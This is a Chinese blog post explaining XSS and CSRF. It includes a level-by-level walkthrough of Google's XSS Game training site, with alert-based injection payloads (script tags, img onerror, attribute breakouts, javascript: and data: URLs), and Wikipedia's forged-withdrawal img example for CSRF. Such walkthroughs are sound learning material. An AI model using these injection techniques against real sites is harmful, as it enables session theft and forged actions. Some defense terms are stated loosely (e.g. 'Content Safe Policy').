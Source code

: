 ```yaml
---
title: Web安全系列：XSS和CSRF
mathjax: false
copyright: true
comment: true
date: 2019-11-18 16:33:05
tags:
- Security
categories:
- Security
photo: http://i-7.vcimg.com/trim/b68b1b513777815f0cf5b27e3568edae150489/trim.jpg
---
```


{% note primary %}
XSS、CSRF
{% endnote %}

<!-- more -->

---


## 前言

Web应用的安全问题也是一个web开发人员需要了解的事，今天我们就来看一看常见的两种安全问题，`XSS`和`CSRF`。

**因为对安全问题不够熟悉，读者如果发现问题请右下角小窗私聊或文章右上角修改按钮github提交pr。**

大体内容如下：

- XSS
  - 什么是XSS
  - XSS分类
  - XSS实例
  - XSS避免
- CSRF
  - 什么是CSRF
  - CSRF实例
  - CSRF避免

## XSS
> Cross-site scripting (XSS) bugs are one of the most common and dangerous types of vulnerabilities in Web applications.These nasty buggers can allow your enemies to steal or modify user data in your apps.


通过这个[小实验（游戏）](https://xss-game.appspot.com/)，你就可以大致了解一下XSS是一个什么东西了。

认识的一个大佬也写过一篇[XSS文章](https://orzbox.github.io/our-tech/#/articles/XSS-Explain-1)，可以当做参考。

做了一下这个实验，勉勉强强算是通关了。

在这个XSS Game中做了什么？**整体感觉就是从客户端找漏洞（看网页源码，JS、HTML），然后通过表单或者url注入脚本或者一些其他第三方脚本。**

> Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec up until 2007.（Wikipedia）



### 常见XSS分类

- Stored XSS Attacks：持久注入，注入数据库
- Reflected XSS Attacks:注入的数据会由服务器返回或者直接跳转到另一个页面显示
- DOM-based XSS Attacks：修改DOM

### XSS注入方式

- 表单注入
- URL注入
- 引用外部脚本

### XSS避免

- 同源策略
- 白名单策略（内容安全策略，Content Safe Policy）
- 表单验证
- 拼凑字符串时验证来自querystring的变量

### XSS Game实验内容

大体记录一下实验内容吧。

#### level1

一个提交表单的页面，输入数据data并提交。
观察py代码可以看到他会将data渲染到页面内，那么我可以输入以下内容：

```html
<script>alert(1)</script>
```

OK，Hello World to XSS就完成了。


#### level2

一个发送评论的页面。
通过观察源码，发现他也会将输入的数据data直接显示出来。

但是这时候使用level1中的方法已经不管用了（可能是因为页面已经加载完了，无法执行script脚本

但是我可以通过如下代码来实现，插入一个无效图片，通过onerror方法来执行脚本。


```html
<img src="" onerror="alert(1)"/>
```

level2 is over！

#### level3

没有可输入的表单，但是可以通过URL输入，有个哈希参数用于图片显示。

通过观察源码，发现他将url输入的数字编号通过img标签进行拼接了（num就是我们输入的数）。

```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

那我们可以通过如下代码来封闭标签：

```html

https://xss-game.appspot.com/level3/frame#x' onerror='alert("xss")'>

```

完成！

#### level4

一个输入表单数据timer，然后提交。

通过查看py代码，发现他的数据渲染部分：

```text
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

```

我们利用封闭标签，输入如下代码：

```text
');alert('xss

模板渲染后：onload="startTimer('');alert('xss');"
```
这样就完成了。


#### level5

观察源码有一个a标签是通过模板渲染的:

```html
<a href="{{ next }}">Next >></a>
```

这里使用a标签的伪协议来完成，我们可以输入：

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

模板渲染后：<a href="javascript:alert(1)">Next >></a>
```

#### level6

可以通过URL请求其他文件，可以通过data协议（`data:text/plain,alert('s')`）创建一个简单的文本。



结果：

``` html
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

## CSRF

> 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。（Wikipedia）

顾名思义，就是攻击者伪造请求。假如说用户在A网站登录了，这时候浏览器保存了登录信息，这段时间内用户又访问了B网站，B网站内存在一个A网站则请求（这个请求是攻击者伪造的），这样就属于跨站请求伪造。

### 维基百科上的例子

前提是没有同源策略，Attackers才能使用银行的登录信息。

```html
假如一家银行用以运行转账操作的URL地址如下： http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName

那么，一个恶意攻击者可以在另一个网站上放置如下代码： <img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">

如果有账户名为Alice的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000资金。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

透过例子能够看出，攻击者并不能通过CSRF攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义运行操作。
```

因为同源策略不允许读取其他源的cookie，所以如何完成攻击呢？
如果可以，使用XSS攻击加CSRF攻击就可以很好的完成。首先使用stored的XSS注入到数据库，然后显示到银行的网页，此时victim不小心点击的这个标签，就会发起请求了。

### 预防

- 检查Referer字段，发起请求的来源。存在客户端伪造Referer的可能
- 添加校验token（伪随机数）

## Reference

- [Warning: You are entering the XSS game area](https://xss-game.appspot.com/)
- [XSS跨站脚本攻击探讨总结](https://orzbox.github.io/our-tech/#/articles/XSS-Explain-1)
- [Cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
- [跨站请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
